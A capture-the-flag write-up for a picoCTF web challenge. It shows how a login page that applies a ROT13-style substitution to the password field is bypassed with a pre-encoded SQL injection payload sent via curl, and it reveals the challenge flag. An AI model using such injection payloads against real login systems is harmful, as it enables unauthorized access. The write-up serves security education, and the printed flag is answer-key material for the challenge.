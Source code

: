 # Irish-Name-Repo 3
Web Exploitation, 400 points

## Description:
> There is a secure website running at http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!


## Solution: 


The website offered an admin login page:

```html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

The solution from the [Irish-Name-Repo_1](Irish-Name-Repo_1.md) and [Irish-Name-Repo_2](Irish-Name-Repo_2.md) didn't work anymore.

Using the debug interface, we can inspect the SQL query:

```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_3# curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=test&debug=1"
<pre>password: test
SQL query: SELECT * FROM admin where password = 'grfg'
</pre><h1>Login failed.</h1>
```

It looks like the password was somehow encrypted. Given the fact that `t` was replaced with `g` twice, this might be a substitution cipher.

Let's try a simple injection:
```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_3# curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=' or 1=1--&debug=1"
<pre>password: ' or 1=1--
SQL query: SELECT * FROM admin where password = '' be 1=1--'
</pre>
```

Now let's try again, sending `be` instead of `or`:
```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_3# curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=' be 1=1--&debug=1" && echo
<pre>password: ' be 1=1--
SQL query: SELECT * FROM admin where password = '' or 1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_ef7eac2f}</p>
```


